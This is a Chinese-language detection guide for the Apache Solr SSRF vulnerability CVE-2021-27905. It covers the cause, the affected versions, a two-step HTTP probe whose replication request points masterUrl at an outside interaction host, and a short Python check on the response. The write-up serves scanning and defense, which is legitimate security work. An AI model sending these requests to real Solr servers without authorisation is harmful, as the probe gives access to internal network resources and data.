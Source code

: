 # Apache Solr <=8.8.1 SSRF漏洞（CVE-2021-27905）检测说明

## 漏洞简介

Apache Solr 8.8.1及之前版本的ReplicationHandler存在服务端请求伪造（SSRF）漏洞。攻击者可通过masterUrl/leaderUrl参数，诱使Solr服务端发起任意HTTP请求，进而访问内网资源、泄露数据，甚至可能导致远程代码执行。

## 影响范围

- 产品：Apache Solr
- 影响版本：<= 8.8.1
- CVE编号：CVE-2021-27905
- 危害等级：Critical

## 漏洞原理

Solr的/replication接口允许通过masterUrl参数指定远程主节点地址。由于未对该参数进行严格校验，攻击者可构造恶意URL，导致Solr服务端向任意地址发起请求，形成SSRF。

## 利用方式与攻击流程

1. 攻击者首先获取Solr实例的core名称。
2. 构造带有恶意masterUrl参数的/replication接口请求，诱使Solr访问外部或内网地址。
3. 若请求成功，响应体中返回`<str name="status">OK</str>`，表明SSRF成立。

## 探测原理与流程

### 探测请求的构造

```http
GET /solr/admin/cores?wt=json HTTP/1.1
Host: target.com
Accept-Language: en
Connection: close

GET /solr/{core}/replication/?command=fetchindex&masterUrl=https://interact.sh HTTP/1.1
Host: target.com
Accept-Language: en
Connection: close
```

- 第一步获取core名称，第二步利用masterUrl参数发起SSRF请求。

### 预期响应与交互

- 响应体需包含`<str name="status">OK</str>`，表明请求被Solr正常处理。

### 判定逻辑

```python
def is_vulnerable(response):
    if '<str name="status">OK</str>' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[获取Solr core名称] --> B[发送带恶意masterUrl的/replication请求]
    B --> C{响应体含<str name="status">OK</str>?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> G[判定存在SSRF漏洞]
```

## 参考链接

- [安全客分析](https://www.anquanke.com/post/id/238201)
- [Ubuntu安全通报](https://ubuntu.com/security/CVE-2021-27905)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-27905)
- [NSFOCUS通告](https://nsfocusglobal.com/apache-solr-arbitrary-file-read-and-ssrf-vulnerability-threat-alert/)
- [Apache官方邮件列表](https://lists.apache.org/thread.html/r0ddc3a82bd7523b1453cb7a5e09eb5559517145425074a42eb326b10%40%3Cannounce.apache.org%3E) 